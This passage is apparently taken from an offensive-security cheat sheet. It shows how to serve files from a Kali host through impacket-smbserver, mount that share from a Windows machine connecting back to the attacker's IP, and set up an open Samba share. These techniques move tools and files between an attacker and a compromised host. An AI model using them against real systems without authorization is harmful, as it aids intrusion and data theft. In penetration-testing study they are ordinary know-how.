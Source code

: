                 <table>
                    <tr>
                        <td>Start SMB share on Kali</td>
                        <td>
                            <li>impacket-smbserver &lt;Share Name&gt; &lt;Directory of Share&gt; -smb2support -user &lt;Username to connect to share&gt; -password &lt;Password to connect to share&gt;</li>
                            <li>Some machines do not work with smb2support.  Other machines require it.</li>
                            <li>Credentials optional.  Can skip next step if not used.</li>
                        </td>
                    </tr>
                    <tr>
                        <td>Create SMB Share Credential Variable</td>
                        <td>
                            <li>$pass = ConvertTo-SecureString &#039;&lt;password&gt;&#039; -AsPlainText -Force</li>
                            <li>$cred = New-Object System.Management.Automation.PSCredential(&#039;&lt;Username&gt;&#039;, $pass)</li>
                            <ul>
                                <li>If it is a domain account then:</li>
                                <ul>
                                    <li>$cred = New-Object System.Management.Automation.PSCredential(&#039;&lt;Domain&gt;\&lt;Username&gt;&#039;, $pass)</li>
                                </ul>
                                <li>Verify $cred creation by echoing it</li>
                            </ul>
                        </td>
                    </tr>
                    <tr>
                        <td>Connect to SMB Share From Windows</td>
                        <td>
                            <li>New-PSDrive -Name &lt;Drive Name for SMB Share&gt; -PSProvider FileSystem -Credential $cred -Root \\&lt;ip of attacker&gt;\&lt;Share Name&gt;</li>
                            <li>If accessing the same share from multiple shells on the same windows machine it works best to give them each different drive names (-Name &lt;Name&gt;)</li>
                        </td>
                    </tr>
                    <tr>
                        <td>Open SMB Share on Windows</td>
                        <td>Simple type: &lt;Drive Name Assigned to SMB Share&gt;:</td>
                    </tr>
                </table>
                <li>Mount SMB share using cmd and simple credentials</li>
                <table>
                    <tr>
                        <td>Create SMB Share</td>
                        <td>sudo impacket-smbserver &lt;Share Name&gt; &lt;Share Directory&gt; -smb2support -user &lt;username&gt; -password &lt;password&gt;</td>
                    </tr>
                    <tr>
                        <td>Connect to share</td>
                        <td>net use \\&lt;ip address&gt;\&lt;share name&gt; /u:&lt;username&gt; &lt;password&gt;<br>net user x: \\&lt;ip&gt;\&lt;share name&gt; /u:&lt;user&gt; &lt;password&gt;</td>
                    </tr>
                    <tr>
                        <td>Open share</td>
                        <td>cd \\&lt;ip address&gt;\&lt;share name&gt;\</td>
                    </tr>
                </table>
                <li>Create SMB share using Linux's built-in SMB server</li>
                <table>
                    <tr>
                        <td>Create SMB Share (optional and self-explanatory parameters included)</td>
                        <td>sudo vi /etc/samba/smb.conf<br>[share]<br>comment = My Share<br>browseable = yes<br>path = /srv/SMB<br>read only = no<br>guest ok = yes<br>writable = yes<br>create mask = 0777</td>
                    </tr>